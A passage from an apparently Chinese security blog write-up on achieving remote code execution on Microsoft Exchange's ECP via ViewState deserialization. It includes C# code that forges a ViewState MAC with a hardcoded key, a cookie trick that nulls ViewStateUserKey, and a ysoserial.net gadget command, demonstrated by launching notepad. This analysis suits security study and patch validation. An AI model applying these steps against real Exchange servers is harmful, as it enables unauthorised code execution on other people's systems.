 ```
byte[] data=new byte[]`{`0xff,0x01,0x0f,0x0f,0x05,0x0a,0x2d,0x32,0x31,0x30,0x31,0x38,0x36,0x36,0x36,0x39,0x64,0x64`}`;
byte[] key=new byte[]`{`0xCB,0x27,0x21,0xAB,0xDA,0xF8,0xE9,0xDC,0x51,0x6D,0x62,0x1D,0x8B,0x8B,0xF1,0x3A,0x2C,0x9E,0x86,0x89,0xA2, 0x53,0x03,0xBF`}`;
int hashcode = StringComparer.InvariantCultureIgnoreCase.GetHashCode("/ecp");
uint _clientstateid=(uint)(hashcode+StringComparer.InvariantCultureIgnoreCase.GetHashCode("default_aspx"));
//....
byte[] hash=(new HMACSHA1(key)).ComputeHash(ms.ToArray());
```

执行，返回以下结果：

[![](https://p1.ssl.qhimg.com/t012fc96895b5c6d655.png)](https://p1.ssl.qhimg.com/t012fc96895b5c6d655.png)

可以看到`ClientId`是正确的，而`Hash`不同，显然页面存在`ViewStateUserKey`。

修改页面输出`ViewStateUserKey`，可看到和cookie中`ASP.NET_SessionId`相同。

[![](https://p0.ssl.qhimg.com/t0176909dd35d651c60.png)](https://p0.ssl.qhimg.com/t0176909dd35d651c60.png)

而我们知道Exchange使用cookie登录而不是Session，在web.config中也`移除`了Session模块：

[![](https://p0.ssl.qhimg.com/t012f72f02a9f24261d.png)](https://p0.ssl.qhimg.com/t012f72f02a9f24261d.png)

所以可推测ViewStateUserKey完全由客户端控制，将cookie中ASP.NET_SessionId`置空`，此时远程返回了相同的ViewState：

[![](https://p4.ssl.qhimg.com/t01400471ef6752d554.png)](https://p4.ssl.qhimg.com/t01400471ef6752d554.png)

证明推论正确，这将在后续操作中节约几个步骤。

### <a class="reference-link" name="0x23%20%E6%9B%B4%E6%8D%A2payload%E8%BF%9B%E8%A1%8C%E5%88%9D%E6%AD%A5%E5%88%A9%E7%94%A8"></a>0x23 更换payload进行初步利用

现在再反过来思考绕过的问题，首先处理程序映射属于asp.net的核心部分，不可能绕过；501检测位置不明，但删除POST包中的Content-Type后依然返回501，证明检测逻辑很可能为`if(Method=="GET" &amp;&amp; ContentLength&gt;0)`{`501;`}``；最后只剩下减小payload长度一种方式。

ysoserial.net提供了很多的payload，我们可以尝试一下其他generator，例如`TextFormattingRunProperties`：

```
ysoserial.exe -g TextFormattingRunProperties -c notepad -f binaryformatter &gt;out.dat
```

将`GetViewState`方法中的数据进行替换，执行并生成ViewState，使用burp将cookie中ASP.NET_SessionId置空，访问，远程返回500，同时执行了命令`cmd /c notepad`。

[![](https://p4.ssl.qhimg.com/t01fdde86b332bf41f7.png)](https://p4.ssl.qhimg.com/t01fdde86b332bf41f7.png)

### 0x24 xaml与代码执行

借助TextFormattingRunPropertiesGenerator，我们能够成功的通过ecp达到Exchange Server的远程代码执行，但其中的原理是什么？能否进行更深入层次的运用？
